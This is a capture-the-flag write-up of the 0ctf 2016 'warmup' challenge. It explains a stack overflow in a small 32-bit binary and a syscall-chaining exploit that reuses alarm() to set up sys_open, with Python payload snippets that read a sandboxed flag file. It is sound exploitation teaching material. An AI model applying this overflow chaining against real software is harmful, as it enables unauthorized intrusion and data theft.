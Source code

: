 ```yaml
---
layout: post
title: 0ctf 2016 - Warmup write-up
author: hugsy
author_twitter: _hugsy_
tags: exploit gef ida 0ctf-2016 x86
---
```


I participated to [0ctf](https://ctf.0ops.net/) but only had time to play for
the reversing challenge `trace` (write-up coming up soon) during the competition
time.

I did this challenge only for fun after the CTF was over so I do not know the
flag, and since I found it interesting, I decided to write a quick write-up.

And kudos to all teams who solved it !


### Info ###

The vulnerable file is [here](http://s000.tinyupload.com/?file_id=46540416201928438333)
{% highlight bash %}
gef➤  !file ./warmup
./warmup: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, BuildID[sha1]=c1791030f336fcc9cda1da8dc3a3f8a70d930a11, stripped
gef➤  checksec warmup
[+] checksec for 'warmup'
Canary:                                           No
NX Support:                                       Yes
PIE Support:                                      No
RPATH:                                            No
RUNPATH:                                          No
Partial RelRO:                                    No
Full RelRO:                                       No
{% endhighlight %}

Pretty stripped down file, very small (which seemed weird for a statically
linked file). Stack canary and PIE are not on, but NX is.


### Vulnerability ###

The binary is really small, does not do much either, so the vulnerability is
quite easy to find and trigger.

![vuln](https://i.imgur.com/jpU2YsD.png)

At 0x08048174, We have a `read(socket, buffer, 52)` where buffer can only
contain 32 bytes, so we have a classic stack overflow. A part of the challenge
is however due to the fact that our controlled part is quite limited
(i.e. 52-32=20 bytes=5 DWORD).

<!--more-->


### Exploitation ###

In addition to not having a lot of gadgets (the source was written in pure
assembly), no libc, etc. 0ctf organizers added that

```
notice: This service is protected by a sandbox, you can only read the flag at /home/warmup/flag
```

Meaning: we cannot simply write `/bin/sh` somewhere in memory, set `eax` to 11
and simply use a gadget to set `ebx`, `ecx`, `edx` to value loaded from the
stack. We have to go all the way to open, read, write back the value of the flag
located in `/home/warmup/flag`.

This lead to a much funkier way to exploit.


#### Objective ####

The objective here seems pretty straight forward. We need to :

   1. Write `/tmp/flag` in a predictable and writable location ( anywhere in the
   `.data` section will do just fine).
   1. Forge a `sys_open(flag, RWX)` gadget
   1. Forge a `sys_read(fd, another_writeable_location, 50)` gadget
   1. Forge a `sys_write(socket, another_writeable_location, 50)`

And it is done! In theory it seems pretty easy, but it took me a few hours
(never underestimate a challenge ☺).


#### Interesting gadgets ####

What the binary provides us with are gadgets to read and write:
{% highlight bash %}
--read
.text:0804811D                 mov     eax, 3
.text:08048122                 mov     ebx, [esp+fd]   ; fd
.text:08048126                 mov     ecx, [esp+addr] ; addr
.text:0804812A                 mov     edx, [esp+len]  ; len
.text:0804812E                 int     80h             ; LINUX - sys_read

--write
.text:08048135                 mov     eax, 4
.text:0804813A                 mov     ebx, [esp+fd]   ; fd
.text:0804813E                 mov     ecx, [esp+addr] ; addr
.text:08048142                 mov     edx, [esp+len]  ; len
.text:08048146                 int     80h             ; LINUX - sys_write
{% endhighlight %}

Where the arguments are read from the limited stack we control.

However, we do not have an `sys_open` gadget, but since we can control `ebx`
from the stack, all we need is to find a way to set `eax` to
[5](https://raw.githubusercontent.com/torvalds/linux/master/arch/x86/entry/syscalls/syscall_32.tbl)

My original intention was to force a call to `sys_read` from our socket, and
send 5 bytes of junk data so that the syscall can return with the right value in
`eax`. Unfortunately, we do not have enough space in our stack to chain correctly our
`read` arguments, then jump into it and finally jump back to our next gadget ☹ .

After quite some time, I realized that `warmup` starts by initializing an alarm
for 10 seconds (which when SIGALARM is received, will kill the
program).
{% highlight bash %}
.text:0804810D                 mov     eax, 27
.text:08048112                 mov     ebx, [esp+seconds] ; seconds
.text:08048116                 int     80h             ; LINUX - sys_alarm
{% endhighlight %}

Nevertheless, this could be valuable to us, because RTFM:

>
>       alarm()  returns  the number of seconds remaining until any previously
>       scheduled alarm was due to be delivered, or zero if there was no
>       previously scheduled alarm.
>

That means that if we jump a second time into the gadget @0x0804810D (i.e. call
`alarm()` a second time), `eax` will be populated with whatever time is left
before SIGALRM is issued!
And since `alarm()` can take any integer as argument, our syscall will not
return as an error! So by sleeping 5 seconds, `sys_alarm` will return with `eax`
set to `NR_sys_open` (5), and we can use the stack to populate the other
registers required for `sys_open`!


#### Attack ####

Again, because of our limited space in the stack, we need to trigger the
vulnerability multiple times. To do, we have to perform only one operation, then
return to the original function (`0x0804815A`), and let the control flow repeat
again until it re-hit our vulnerability.

So let's go back to the steps we set in the *Objective* part for the
exploitation part:

Writing `/tmp/flag` in a predictable and writable location can be done with the
following gadgets:
{% highlight python %}
    p = "A"*32
    p+= i_s(sys_read)
    p+= i_s(ret_to_orginal_function) # ret back to vuln function
    p+= i_s(0) # fd
    p+= i_s(writable_addr) # addr
    p+= i_s(len(flag_path)) # len
    s.write(p)
    s.read_until("Good Luck!\n")
{% endhighlight %}

Now we have to sleep !! ☺
{% highlight python %}
    time.sleep(5)
{% endhighlight %}

Now we can send our second payload, to call `alarm`, setting `eax` to
`NR_sys_open`, and append the other arguments:
{% highlight python %}
    p = "A"*32
    p+= i_s(sys_alarm)
    p+= i_s(set_ebx_ecx_edx_int80)
    p+= i_s(ret_to_orginal_function)
    p+= i_s(writable_addr)
    p+= i_s(7) # READ|WRITE|EXECUTE
    s.write(p)
    s.read_until("Good Luck!\n")
{% endhighlight %}

We have now a file descriptor open to our flag file! Let's read its content:
{% highlight python %}
    p = "A"*32
    p+= i_s(sys_read)
    p+= i_s(ret_to_orginal_function)
    p+= i_s(5) # file_fd
    p+= i_s(writable_addr2)
    p+= i_s(20)
    s.write(p)
    s.read_until("Good Luck!\n")
{% endhighlight %}

... And write it back to our socket (and exit cleanly, just because):
{% highlight python %}
    p = "A"*32
    p+= i_s(sys_write)
    p+= i_s(sys_exit)
    p+= i_s(1) # fd stdout
    p+= i_s(writable_addr2)
    p+= i_s(20)
    s.write(p)
{% endhighlight %}

This write-up does not give justice to the challenge, making it look easy. But
it was not. I really like how you are made to create really inventive and neat
technique for subverting existing calls to set up the structure the exact way
you want it.

For those who want, the full exploit script is
[here](https://gist.github.com/hugsy/8e31ddc61dba7d4e7c1f). But again, it was
not tested against the game server.

Another good lesson to pay attention to details...
